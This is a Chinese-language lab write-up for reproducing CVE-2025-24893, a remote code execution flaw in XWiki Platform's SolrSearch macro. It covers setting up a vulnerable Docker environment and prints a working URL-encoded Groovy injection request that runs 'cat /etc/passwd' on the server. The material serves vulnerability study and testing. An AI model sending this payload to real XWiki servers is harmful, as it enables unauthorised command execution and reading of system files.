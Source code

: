 # XWiki Platform系统远程代码执行漏洞（CVE-2025-24893)

​	XWiki Platform是XWiki开源的一套用于创建Web协作应用程序的Wiki平台。

​	XWiki Platform存在安全漏洞，该漏洞源于任何来宾用户都可以通过对SolrSearch的请求，造成远程代码执行。CVE-2025-24893是针对XWiki平台SolrSearchMacros组件的远程代码执行漏洞（RCE），该漏洞源于对用户输入数据的未充分过滤，攻击者可利用Solr查询参数注入恶意代码，通过服务端模板引擎（如Velocity或Groovy）触发命令执行

项目开源地址：https://github.com/xwiki/xwiki-platform

参考链接：https://jira.xwiki.org/browse/XWIKI-22149

## 环境搭建

执行如下命令启动一个包含漏洞的xwiki-platform  16.2.0 环境：

```
docker compose up -d
```

![image-20250501130618345](./1.png)



## 漏洞复现

确保环境出现以下页面

![image-20250501144259006](D:\github\VulneraLab\xwiki-platform\CVE-2025-24893\2.png)

发送

```
GET /bin/get/Main/SolrSearch?media=rss&text=%7d%7d%7d%7b%7basync%20async%3dfalse%7d%7d%7b%7bgroovy%7d%7dprintln(%22cat%20/etc/passwd%22.execute().text)%7b%7b%2fgroovy%7d%7d%7b%7b%2fasync%7d%7d%20 HTTP/1.1
Host: 192.168.76.129:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36


```

![image-20250501144225499](D:\github\VulneraLab\xwiki-platform\CVE-2025-24893\3.png)